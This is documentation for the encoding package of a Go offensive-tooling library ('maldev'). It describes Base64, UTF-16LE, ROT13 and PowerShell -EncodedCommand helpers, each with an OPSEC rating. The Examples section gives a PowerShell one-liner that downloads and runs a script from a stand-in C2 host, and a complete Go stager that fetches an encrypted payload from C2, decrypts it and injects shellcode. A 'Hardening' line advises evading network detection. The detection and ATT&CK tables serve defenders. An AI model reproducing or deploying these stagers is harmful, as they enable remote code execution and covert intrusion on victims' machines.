

# Encode

[← encode index](README.md) · [docs/index](../../index.md)

## TL;DR

Transport-safe byte transforms: Base64 (RFC 4648 §4 + §5), UTF-16LE,
ROT13, and PowerShell `-EncodedCommand` (`Base64(UTF-16LE(script))`).
Pure functions, no system interaction, cross-platform.

| You want to send bytes through… | Use | Notes |
|---|---|---|
| HTTP body / JSON string / Go source const | [`Base64Encode`](#base64encode) | Standard alphabet (`+/`) |
| URL path / filename / cookie | [`Base64URLEncode`](#base64urlencode) | URL-safe alphabet (`-_`) |
| Windows API expecting `LPWSTR` | [`ToUTF16LE`](#toutf16le) | Pair with `windows.UTF16PtrFromString` for direct ABI use |
| `powershell.exe -EncodedCommand` | [`PowerShell`](#powershell) | Auto-wraps: `Base64(UTF-16LE(script))` |
| Defeat plaintext-string YARA on Win32 names | [`ROT13`](#rot13) | Novelty cover; not real encoding |

What this DOES achieve:

- Survives byte-mangling channels (HTTP, JSON, command line).
- One-call helpers — no manual base64 + UTF-16 chaining.

What this does NOT achieve:

- **Encoding ≠ encryption** — Base64 is reversible without a
  key. Always encrypt first, encode last (see
  [`crypto`](../crypto/payload-encryption.md) recommended
  stack diagram).
- **Doesn't bypass Defender's `-EncodedCommand` heuristic** —
  Defender flags long Base64 strings on PowerShell command
  lines regardless of content. The technique is for transport
  cover, not detection cover.

## Primer

Encoding solves a different problem from encryption. Many channels
cannot transport arbitrary bytes: HTTP headers reject control characters,
URLs reject `+` and `/`, JSON strings reject zero bytes, command lines
on Windows expect UTF-16, and `powershell.exe -EncodedCommand` accepts
only Base64-of-UTF-16LE.

`encode` covers each of those representations with a one-line API. It is
not a security boundary — Base64 is reversible by anyone who reads the
output. The pattern in this codebase is **encrypt with `crypto`, then
encode for the wire**: confidentiality from the cipher, transportability
from the encoding.

The package has no Windows-specific code (despite UTF-16LE being
Windows' native string format) and cross-compiles cleanly to every Go
target.

## How it works



`PowerShell(script)` is a convenience wrapper:
`Base64Encode(ToUTF16LE(script))` — exactly what `powershell.exe
-EncodedCommand` parses.

## API Reference

Package: `encode` ([pkg.go.dev](https://pkg.go.dev/github.com/oioio-space/maldev/encode))

### `Base64Encode(data []byte) string`

- godoc: encode `data` as standard Base64 (RFC 4648 §4, padded with `=`).
- Description: thin wrapper over `encoding/base64.StdEncoding.EncodeToString`. Round-trips through `Base64Decode`.
- Parameters: `data` — bytes to encode. Empty slice produces an empty string.
- Returns: ASCII string, length `4 * ceil(len(data) / 3)`.
- Side effects: allocates one string of that length.
- OPSEC: very-quiet. Pure userland transform; no syscalls.
- Required privileges: none.
- Platform: any (pure Go).

### `Base64Decode(s string) ([]byte, error)`

- godoc: inverse of `Base64Encode`. Returns the decoded bytes.
- Description: thin wrapper over `encoding/base64.StdEncoding.DecodeString`. Strict — rejects URL-safe input (`-`, `_`); use `Base64URLDecode` for that variant.
- Parameters: `s` — standard-Base64 string.
- Returns: decoded bytes, or wrapped `base64.CorruptInputError` for malformed input (bad alphabet, wrong padding, truncated).
- Side effects: allocates `len(s) * 3 / 4` bytes worst case.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `Base64URLEncode(data []byte) string`

- godoc: URL-safe Base64 (RFC 4648 §5) — uses `-` and `_` instead of `+` and `/`.
- Description: produces output safe for URLs, query strings, filenames, JWT-style tokens. Padding (`=`) is preserved; pair with `Base64URLDecode` (not `Base64Decode`).
- Parameters: `data` — bytes to encode.
- Returns: URL-safe Base64 string.
- Side effects: same allocation profile as `Base64Encode`.
- OPSEC: very-quiet. The URL-safe variant is more common in HTTP exfil paths and may attract less attention than `+`/`/`-laden classic Base64.
- Required privileges: none.
- Platform: any.

### `Base64URLDecode(data string) ([]byte, error)`

- godoc: inverse of `Base64URLEncode`.
- Description: strict on alphabet (rejects `+`/`/`); accepts both padded and unpadded input.
- Parameters: `data` — URL-safe Base64 string.
- Returns: decoded bytes, or wrapped `base64.CorruptInputError`.
- Side effects: allocates the decoded slice.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any.

### `ToUTF16LE(s string) []byte`

- godoc: convert a Go UTF-8 string to little-endian UTF-16 bytes — the format Windows API parameters (`LPWSTR`) and `powershell.exe -EncodedCommand` expect.
- Description: emits raw UTF-16LE without a BOM. Surrogate pairs are produced for supplementary-plane code points.
- Parameters: `s` — any UTF-8 Go string.
- Returns: byte slice with two bytes per BMP code point (four bytes for supplementary planes).
- Side effects: allocates `2 * <utf-16 code unit count>` bytes.
- OPSEC: very-quiet.
- Required privileges: none.
- Platform: any. The UTF-16LE form is consumed primarily by Windows APIs but the converter itself is portable.

### `PowerShell(script string) string`

- godoc: convenience wrapper — `Base64Encode(ToUTF16LE(script))`.
- Description: produces the exact format `powershell.exe -EncodedCommand <output>` expects (UTF-16LE then standard Base64). Pair with `cmd.Exe`-style invocation for fileless execution paths.
- Parameters: `script` — PowerShell source as a Go string.
- Returns: ASCII string ready to paste behind `-EncodedCommand`.
- Side effects: allocates the intermediate UTF-16LE buffer + the encoded string.
- OPSEC: medium-quiet. The `powershell -EncodedCommand` invocation pattern is itself an EDR signal regardless of payload — encoding doesn't hide the parent-child / command-line telemetry.
- Required privileges: none for the encoding step. The downstream `powershell.exe` invocation requires whatever the caller's session permits.
- Platform: any (encoding is pure Go); the output is only meaningful on Windows.

### `ROT13(s string) string`

- godoc: Caesar shift by 13 over ASCII letters; non-alpha bytes pass through unchanged. Self-inverse: `ROT13(ROT13(x)) == x`.
- Description: provided for signature-breaking on ASCII strings (WinAPI function names in obfuscated source) — not for security. Pair with a real cipher (`crypto.EncryptAESGCM` / `crypto.EncryptChaCha20`) for confidentiality.
- Parameters: `s` — ASCII or mixed string.
- Returns: shifted string of identical length.
- Side effects: allocates one new string.
- OPSEC: very-quiet but trivially reversible — no protection against any analyst with `tr a-zA-Z n-za-mN-ZA-M`.
- Required privileges: none.
- Platform: any.

> [!CAUTION]
> ROT13 is not security. Provided for novelty / signature-breaking on
> ASCII strings (e.g. WinAPI function names in obfuscated source).

## Examples

### Simple

```go
encoded := encode.Base64Encode([]byte("hello"))
decoded, _ := encode.Base64Decode(encoded)
```

See `ExampleBase64Encode`, `ExamplePowerShell`, `ExampleToUTF16LE` in
[`encode_example_test.go`](../../../encode/encode_example_test.go).

### Composed (`crypto` + `encode` for HTTP transport)

Encrypt first, then encode for the wire:

```go
import (
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/encode"
)

key, _ := crypto.NewAESKey()
ct, _  := crypto.EncryptAESGCM(key, rawShellcode)
wire   := encode.Base64Encode(ct)
// transport `wire` over HTTP / JSON / etc.

// Receiver:
ct2, _ := encode.Base64Decode(wire)
pt, _  := crypto.DecryptAESGCM(key, ct2)
```

### Advanced (PowerShell stager)

Generate a one-liner that downloads and executes a remote script:

```go
script := `IEX (New-Object Net.WebClient).DownloadString('https://c2.example/s')`
arg := encode.PowerShell(script)
// powershell.exe -NoProfile -EncodedCommand <arg>
```

### Complex (encode + crypto + transport)

End-to-end stager that pulls an encrypted payload from C2, decodes,
decrypts, injects:

```go
import (
    "io"
    "net/http"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/encode"
    "github.com/oioio-space/maldev/inject"
)

func stage(c2URL string, key []byte) error {
    resp, err := http.Get(c2URL)
    if err != nil { return err }
    defer resp.Body.Close()

    body, err := io.ReadAll(resp.Body)
    if err != nil { return err }

    ct, err := encode.Base64URLDecode(string(body))
    if err != nil { return err }

    shellcode, err := crypto.DecryptAESGCM(key, ct)
    if err != nil { return err }

    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config: inject.Config{Method: inject.MethodCreateThread},
    })
    if err != nil { return err }
    return inj.Inject(shellcode)
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Long Base64 string passed to `powershell.exe -EncodedCommand` | Sysmon Event 1 (Process Create) command-line scanning, AMSI |
| Base64 string > 1 KB in HTTP request body | Network DLP, Suricata `entropy` rules |
| UTF-16LE blob in a text-typed channel | Anomaly: text channels normally see UTF-8 |
| `IEX (New-Object Net.WebClient).DownloadString(...)` after Base64 decode | Sysmon Event 4104 (PowerShell ScriptBlockLogging) |

**D3FEND counters:**

- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — static executable / script analysis.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA / regex on decoded content.
- [D3-NTPM](https://d3fend.mitre.org/technique/d3f:NetworkTrafficPolicyMapping/)
  — block outbound `IEX`+Base64 patterns at the proxy.

**Hardening:** chunk long Base64 across multiple requests; randomise
field order; pad with realistic noise tokens before encoding.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | PowerShell `-EncodedCommand` wrapper, Base64 wrappers | D3-SEA |
| [T1027.013](https://attack.mitre.org/techniques/T1027/013/) | Encrypted/Encoded File | Base64 envelope around encrypted payload | D3-FCR |
| [T1140](https://attack.mitre.org/techniques/T1140/) | Deobfuscate/Decode Files or Information | `Base64Decode`, `Base64URLDecode` | D3-FCR |

## Limitations

- **Encoding is not encryption.** Base64 is trivially reversible.
  Always encrypt before encoding for non-public payloads.
- **Entropy spike on the wire.** Long Base64 strings are visible to
  network DLP. Chunk into multiple requests, or use a more selective
  steganographic carrier.
- **Command-line length cap.** `powershell.exe -EncodedCommand` accepts
  ~32 KB of Base64. Larger stagers must download then execute, not
  embed inline.
- **UTF-16LE assumes BMP.** Supplementary-plane code points (emoji,
  CJK extensions) get surrogate pairs — fine for PowerShell but
  surprises any consumer expecting fixed two-byte units.

## See also

- [`crypto`](../crypto/README.md) — pair to encrypt before encoding.
- [`hash`](../hash/README.md) — fingerprinting and ROR13 API hashing.
- [Microsoft Docs: PowerShell `-EncodedCommand`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1)
